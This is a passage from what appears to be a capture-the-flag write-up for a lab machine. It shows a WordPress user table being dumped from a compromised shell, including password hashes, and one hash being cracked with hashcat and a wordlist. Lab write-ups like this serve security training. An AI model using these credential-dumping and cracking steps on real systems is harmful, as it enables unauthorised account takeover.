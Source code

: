 `wp_users` is the most interesting. I’ll dump it:

```

www-data@bf9a078a3627:/dev/shm$ php sql.php 'select * from wp_users;'
{
    "ID": "1",
    "user_login": "root",
    "user_pass": "$P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1",
    "user_nicename": "root",
    "user_email": "root@bigbang.htb",
    "user_url": "http:\/\/blog.bigbang.htb",
    "user_registered": "2024-05-31 13:06:58",
    "user_activation_key": "",
    "user_status": "0",
    "display_name": "root"
}
{
    "ID": "3",
    "user_login": "shawking",
    "user_pass": "$P$Br7LUHG9NjNk6\/QSYm2chNHfxWdoK.\/",
    "user_nicename": "shawking",
    "user_email": "shawking@bigbang.htb",
    "user_url": "",
    "user_registered": "2024-06-01 10:39:55",
    "user_activation_key": "",
    "user_status": "0",
    "display_name": "Stephen Hawking"
}

```

There are two users, root and shawking, each with hashes.

### SSH

#### Crack Password

I’ll save both hashes to a file:

```

root:$P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1
shawking:$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./

```

I’ll pass them to `hashcat` with the `--user` flag as the username is included:

```

$ hashcat wphashes rockyou.txt --user
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

400 | phpass | Generic KDF
...[snip]...
$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./:quantumphysics          
...[snip]...

```
